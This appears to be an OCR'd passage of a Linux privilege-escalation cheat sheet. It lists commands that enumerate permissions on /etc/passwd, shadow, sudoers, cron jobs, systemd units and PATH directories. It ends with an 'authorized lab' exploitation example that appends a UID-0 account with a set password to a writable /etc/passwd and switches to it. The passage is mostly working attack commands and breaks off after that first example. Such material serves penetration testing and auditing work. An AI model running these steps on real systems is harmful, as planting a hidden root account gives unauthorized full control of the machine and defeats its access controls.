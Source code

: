 Hot targets to audit
```
# Critical files
ls -l /etc/{passwd,shadow,sudoers,crontab}
stat -c "%a %n" /etc/{passwd,shadow,sudoers,crontab}

# Sudoers includes
ls -l /etc/sudoers.d 2>/dev/null

# Cron system-wide and per-user
ls -la /etc/cron* 2>/dev/null
cat /etc/crontab 2>/dev/null
ls -l /var/spool/cron /var/spool/cron/crontabs 2>/dev/null

# Grep cron/systemd for scripts that may live in writable locations
grep -R --line-number -E "(sh|py|pl|exec|bin|backup)" /etc/cron* /etc/crontab /etc/cron.d 2>/dev/null
systemctl list-timers --all 2>/dev/null
systemctl list-units --type=service --all 2>/dev/null
```

Writable systemd units or scripts used by services
```
# Writable service units
find /etc/systemd/system /lib/systemd/system -type f -name "*.service" -writable -ls 2>/dev/null

# Writable scripts or directories referenced by services (ExecStart lines)
grep -R --line-number -E "ExecStart|ExecStartPre|ExecStartPost" /etc/systemd/system /lib/systemd/system 2>/dev/null
```

PATH-related checks
```
# List PATH directories with perms
IFS=: read -ra P <<< "$PATH"; for d in "${P[@]}"; do [ -d "$d" ] && ls -ld "$d"; done

# World-writable PATH dirs (potential PATH hijack if root tasks honor these dirs)
IFS=: read -ra P <<< "$PATH"; for d in "${P[@]}"; do [ -w "$d" ] && echo "[writable] $d"; done
```

Example exploitation patterns (for authorized lab environments)

1) Writable /etc/passwd (add a UID 0 user)
```
# Backup first
cp /etc/passwd /tmp/passwd.bak

# Generate a SHA-512 password hash (choose one method)
openssl passwd -6 'P@ssw0rd!' > /tmp/hash.txt
# or
mkpasswd -m sha-512 'P@ssw0rd!' > /tmp/hash.txt
# or
python3 - << 'PY'
import crypt
print(crypt.crypt("P@ssw0rd!", "$6$saltsalt$"))
PY

HASH=$(cat /tmp/hash.txt)

# Append a new root-equivalent user (UID 0, GID 0)
echo "sprivesc:${HASH}:0:0:root:/root:/bin/bash" | tee -a /etc/passwd

# Switch to it
su - sprivesc
id
```
